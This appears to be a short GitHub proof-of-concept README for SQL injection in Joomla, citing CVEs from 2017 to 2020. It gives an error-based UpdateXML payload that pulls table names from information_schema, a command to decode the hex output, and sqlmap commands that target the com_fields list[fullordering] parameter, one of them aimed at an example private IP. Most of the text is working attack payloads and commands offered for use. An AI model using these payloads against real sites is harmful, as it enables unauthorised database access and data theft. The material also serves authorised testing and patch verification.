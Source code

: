 # Joomla-SQLinjection PoC

1. CVE-2020-10243

2. CVE-2019-19846

3. CVE-2018-8045

4. CVE-2018-6376

5. CVE-2017-8917

# Payload to detect prefix table
## Step 1: Get hexa value
*UpdateXML(2, concat(0x3a,(SELECT HEX(MID(TABLE_NAME,1,16)) FROM information_schema.tables WHERE TABLE_NAME LIKE 0x257573657273 LIMIT 1,1), 0x3a), 1)*
## Step 2: Convert hexa to ASCII
+) Linux command: echo <hexa value> | xxd -r -p

+) Link: https://www.rapidtables.com/convert/number/hex-to-ascii.html
## Detecting:
![image](https://user-images.githubusercontent.com/24661746/77494259-ddd35680-6e77-11ea-8331-106c89b48f7c.png)
## Sqlmap:
sqlmap -u "[your taget]/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs
## Example
sqlmap -u "http://192.168.119.128/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=*" --dbms=mysql --technique=E --dbs

Reference:
1. https://github.com/HoangKien1020/CVE-2020-10243
2. https://xz.aliyun.com/t/6990
